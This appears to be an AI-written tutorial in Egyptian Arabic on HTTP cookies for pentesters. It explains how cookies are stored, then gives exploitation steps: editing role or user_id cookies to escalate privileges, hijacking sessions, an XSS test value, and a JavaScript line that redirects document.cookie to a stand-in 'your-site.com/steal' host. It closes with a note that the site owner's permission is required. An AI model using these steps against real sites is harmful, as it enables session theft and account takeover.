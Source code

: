 تمام، هشرحلك القسم ده: **"HTTP Cookies: Storing and manipulating cookies"** بنفس الطريقة السابقة: بعمق وبساطة، مع تنسيق خفيف عشان النسخ يطلع نضيف، ورموز وإيموجي بسيطة للتزيين، وخلاصة بالعامية المصرية بعد كل جزء، وفي الآخر خطوات عملية للاستغلال كـ **Pentester** مع كودات (بدون صيغة ```http). يلا نبدأ! 🚀

---

### 🌟 1. إيه هي الكوكيز (HTTP Cookies)؟ 🌟  
معناها: الكوكيز هي بيانات صغيرة الموقع بيحطها على جهازك (موبايلك أو كمبيوترك) عشان يفتكرك أو يخزن حاجات عنك.  
القسم ده بيركز على: إزاي الكوكيز بتتخزن وإزاي تقدر تتلاعب بيها.  
أمثلة:  
- 🍪 تخزن اسمك أو رقم تعريفك (مثل "user_id=123").  
- 🔑 تثبت إنك مسجل دخول (زي "session_id=abc123").  

رمز بسيط:  
- الموقع بيحط كوكي:  
```javascript
document.cookie = "username=ali";
```

الخلاصة بالعامية: الكوكيز زي بطاقة تعريف في جيبك، الموقع بيحطها عشان يعرفك لما ترجع! 😄

---

### ⚙️ 2. إزاي الكوكيز بتتخزن؟ ⚙️  
الآلية: الكوكيز بتتخزن على جهازك في المتصفح، وبتتبعت تلقائياً مع كل طلب للموقع.  
كيف بتتخزن؟  
- 📦 السيرفر بيبعتها: لما تدخل الموقع، السيرفر بيقول "خد الكوكي دي".  
- 🖥️ المتصفح بيحفظها: بيخزنها في مكان خاص (زي "Application" في F12).  
- 📲 بترجع للسيرفر: كل ما تزور الموقع، الكوكي بتروح مع الطلب.  

رمز بسيط:  
- تخزين كوكي:  
```javascript
document.cookie = "session_id=xyz789; expires=Thu, 01 Jan 2026 00:00:00 GMT";
```
- قراءة الكوكي:  
```javascript
console.log(document.cookie); // بيطلعلك "session_id=xyz789"
```

الخلاصة بالعامية: زي ما يدولك كارت ويقولك خلّيه في جيبك، وكل ما تيجي هاخده أشوف مين أنت! 😂

---

### ⚠️ 3. إزاي تقدر تتلاعب في الكوكيز؟ ⚠️  
السبب: الكوكيز بتتخزن على جهازك، يعني تقدر تشوفها وتغيرها كـ **Pentester** لو الموقع مش حاطط حماية كويسة.  
ليه ده ممكن؟  
- ✏️ مكشوفة: تقدر تشوفها في المتصفح بسهولة.  
- 🔧 سهل التعديل: باستخدام أدوات بسيطة زي F12 أو برامج زي Burp Suite.  
- 🚪 لو مفيش حماية: زي "HttpOnly" أو "Secure"، تقدر تسرقها أو تعدلها.  

رمز بسيط:  
- كوكي موجودة:  
```javascript
document.cookie = "role=user";
```
- تعديلها:  
```javascript
document.cookie = "role=admin";
```

الخلاصة بالعامية: الكوكي زي ورقة في جيبك، تقدر تمسح اللي مكتوب وتكتب اللي عايزه! 💰

---

### 🛡️ 4. إزاي تستغل التخزين والتلاعب كـ Pentester؟ 🛡️  
الآلية: بما إن الكوكيز تحت سيطرتك، تقدر تغيرها أو تسرقها لو الموقع مش محمي، وتخلّي السيرفر يصدق التغيير.  
أمثلة للاستغلال:  
- 🔑 تغير الصلاحيات: لو "role=user"، خلّيه "admin".  
- 💉 سرقة جلسة: لو "session_id=abc123"، استخدمه عشان تدخل مكان المستخدم.  
- 🚨 كود خبيث: جرب تحط قيمة زي "<script>alert(1)</script>" وشوف السيرفر هيعمل إيه.  

رموز عملية:  
- كوكي موجودة:  
```javascript
document.cookie = "user_id=123";
```
- تعديلها:  
```javascript
document.cookie = "user_id=1";
```
- سرقتها (مثال نصي):  
"Send to evil.com with user_id=1"

الخلاصة بالعامية: زي ما تسرق الكارت بتاع حد وتكتب عليه إنك المدير! 😈

---

### 🔧 خطوات عملية للاستغلال كـ Pentester مع كودات 🔧  
1. 🔍 فحص الكوكيز:  
   - افتح F12 > "Application" > "Cookies"، دور على الكوكيز.  
   - لو لقيت: "user_id=123"، جرب غيره:  
     ```javascript
     document.cookie = "user_id=1";
     ```

2. ✏️ تعديل الكوكي:  
   - لو فيه: "role=user"، عدله:  
     ```javascript
     document.cookie = "role=admin";
     ```

3. ⚙️ سرقة الكوكي:  
   - جرب تبعتها لموقعك:  
     ```javascript
     window.location = "http://your-site.com/steal?cookie=" + document.cookie;
     ```

4. 💉 اختبار التلاعب:  
   - حط قيمة غريبة:  
     ```javascript
     document.cookie = "role=<script>alert(1)</script>";
     ```

5. 🛠️ اعتراض الطلب:  
   - استخدم Burp Suite، غير الكوكي (مثال نصي):  
     "POST /page with cookie: role=admin"

---

### 📝 ملاحظة أخلاقية:  
كل ده لازم يكون بإذن من صاحب الموقع، عشان متلاقيش نفسك في مشكلة! ⚖️  

لو عايز أي حاجة تتفصل أكتر أو كود زيادة، قوللي وأظبطهالك! 🌈